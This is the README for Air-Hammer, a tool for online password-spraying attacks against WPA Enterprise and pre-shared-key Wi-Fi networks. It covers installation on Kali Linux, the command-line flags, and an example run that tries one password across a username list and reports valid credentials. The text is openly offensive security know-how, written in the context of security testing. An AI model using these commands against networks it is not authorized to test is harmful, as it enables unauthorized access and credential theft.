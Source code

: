 Air-Hammer - A WPA Enterprise or Pre-shared key horizontal brute-force attack tool
==========
*Created by Michael "Wh1t3Rh1n0" Allen, 2016-09-01*

Introduction
------------
Air-Hammer is an online brute-force attack tool for use against WPA Enterprise networks. Although WPA Enterprise is often considered "more secure" than WPA-PSK, it also has a much larger attack surface. While WPA-PSK networks have only one valid password, there may be thousands of valid username and password combinations which grant access to a single WPA Enterprise network. Further, passwords used to access WPA Enterprise networks are commonly selected by end users, many of whom select **extremely common passwords**.

Air-Hammer has several advantages over current attacks against WPA Enterprise networks including:

* Client-less attacks
* Potentially larger attack surface
* Minimal hardware requirements

For a more detailed introduction to Air-Hammer, see my original blog post on it [here][1]


Screenshots
-----------
![Air-Hammer in use](http://mikeallen.org/images/air-hammer-01.jpg)


Installing dependencies
-----------------------
Air-Hammer has been built and used on the current version of Kali Linux. In addition to packages that come with Kali Linux by default, the following dependencies need to be installed:

* [python-wpa-supplicant][2]:

        root@kali:~# pip install wpa_supplicant


Other requirements
------------------
Air-Hammer requires a list of usernames that are valid for the target network in order to function. Some basic suggestions for creating this list are included in [step 2 of the attack chain outlined on my blog][3].


Usage
-----
The `-h` or `--help` flags can be used to display Air-Hammer's usage instructions.

```
root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)
```

Example
-------
Below is a standard attack using wlan0 to target the "Test-Network" wireless network with the password, "UserPassword1", and a list of usernames stored in the file, "usernames.txt".

```
root@kali:~# ./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt 
[0]  Trying alice:UserPassword1...
[1]  Trying bob:UserPassword1...
[2]  Trying charlotte:UserPassword1...
[3]  Trying dave:UserPassword1...
[4]  Trying wifiuser:UserPassword1...
[!] VALID CREDENTIALS: wifiuser:UserPassword1
[5]  Trying wrongUser05:UserPassword1...
[6]  Trying wrongUser06:UserPassword1...
```


[1]: http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/
[2]: https://github.com/digidotcom/python-wpa-supplicant
[3]: http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/#attack-chain
